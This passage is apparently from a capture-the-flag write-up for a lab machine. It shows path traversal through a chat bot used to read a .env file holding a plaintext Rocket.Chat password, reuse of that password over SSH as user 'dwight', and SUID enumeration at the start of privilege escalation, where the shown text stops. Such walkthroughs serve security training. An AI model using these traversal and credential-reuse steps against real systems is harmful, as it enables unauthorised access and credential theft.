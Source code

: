 Just combine `../` with `list` and then `file` command

As much as needed!

ok I was mad confused when `.ssh` folder was empty but hey we love enumerating

so...in the `hubot` folder

```text
 <!=====Contents of file ../hubot/.env=====>
export ROCKETCHAT_URL='http://127.0.0.1:48320'
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23
export ROCKETCHAT_USESSL=false
export RESPOND_TO_DM=true
export RESPOND_TO_EDITED=true
export PORT=8000
export BIND_ADDRESS=127.0.0.1
<!=====End of file ../hubot/.env=====>
```

First i tried to ssh as "recyclops:Queenofblad3s!23"

But it didnt work...which confuses a bit more

But hey remember we can read /etc/passwd too

I check and there is a `dwight` user...and wo owns recyclops?

Yeah that's right `dwight:Queenofblad3s!23`

```bash
└──╼ $ssh dwight@10.129.148.234
dwight@10.129.148.234's password:
Activate the web console with: systemctl enable --now cockpit.socket

Last login: Tue Feb  1 09:14:33 2022 from 10.10.14.23
[dwight@paper ~]$ id
uid=1004(dwight) gid=1004(dwight) groups=1004(dwight)

[dwight@paper ~]$ cat user.txt
dwight_you_ignorant_time_thief

```

## Privilege escalation

```bash
...

Sorry, user dwight may not run sudo on paper.
[dwight@paper ~]$ find / -perm -u=s 2>/dev/null
/usr/bin/fusermount
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/su
/usr/bin/umount
/usr/bin/crontab
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/at
/usr/bin/sudo
/usr/bin/fusermount3
/usr/sbin/grub2-set-bootflag
/usr/sbin/pam_timestamp_check
/usr/sbin/unix_chkpwd
```
